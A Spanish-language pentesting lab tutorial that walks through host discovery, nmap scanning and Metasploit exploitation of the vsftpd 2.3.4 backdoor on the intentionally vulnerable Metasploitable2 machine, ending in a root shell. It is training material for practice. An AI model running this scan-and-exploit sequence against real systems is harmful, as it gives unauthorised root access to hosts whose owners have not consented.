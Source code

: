 # Uso Básico de Metasploit – Explotación vsftpd en Linux

**Vamos a usar la maquina virtual vulnerable Metasploitable2 se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla.**

![image.png](./imagenes/image%2016.png)

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2017.png)

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    ![image.png](./imagenes/image%2018.png)
    

```bash
ping -c 1 10.0.3.7
```

![image.png](./imagenes/image%2019.png)

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![image.png](./imagenes/image%2020.png)
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![image.png](./imagenes/image%2021.png)

Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```

![image.png](./imagenes/image%2022.png)

- Abrimos el Metasploit
    
    ![image.png](./imagenes/image%2023.png)
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![image.png](./imagenes/image%2024.png)

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![image.png](./imagenes/image%2025.png)

`search vsFTP 2.3.4`

![image.png](./imagenes/image%2026.png)

`use 0`

![image.png](./imagenes/image%2027.png)

`show options`

![image.png](./imagenes/image%2028.png)

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![image.png](./imagenes/image%2029.png)

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`

![image.png](./imagenes/image%2030.png)

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![image.png](./imagenes/image%2031.png)

**Ya estaríamos dentro con privilegios de Root**.
